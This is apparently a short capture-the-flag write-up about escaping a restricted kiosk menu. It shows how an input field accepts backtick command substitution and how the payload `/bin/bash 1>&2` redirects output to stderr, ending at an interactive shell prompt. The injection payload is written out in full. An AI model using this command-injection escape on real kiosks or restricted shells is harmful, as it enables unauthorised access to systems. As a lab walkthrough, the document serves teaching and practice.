


# Kiosk escape to shell
Option 4 gives a  hint that special characters may cause errors, after trying to execute `/bin/bash` in between back ticks "`" it seems it works but we receive no output to the console so we try again to redirect the stdout to stderror




## Escaping to shell
Using back ticks can be used to execute shell comamnds but the output is being filtered, so to show the output we redirect the `stdout` to `stderr`

```
`/bin/bash 1>&2`
```
And we escape to the shell.

```
   ___                                                      _    
  / __|   _  _     __      __      ___     ___     ___     | |   
  \__ \  | +| |   / _|    / _|    / -_)   (_-<    (_-<     |_|   
  |___/   \_,_|   \__|_   \__|_   \___|   /__/_   /__/_   _(_)_  
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_| """ | 
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 

Type 'exit' to return to the menu.

shinny@9bf4b0fee057:~$
```

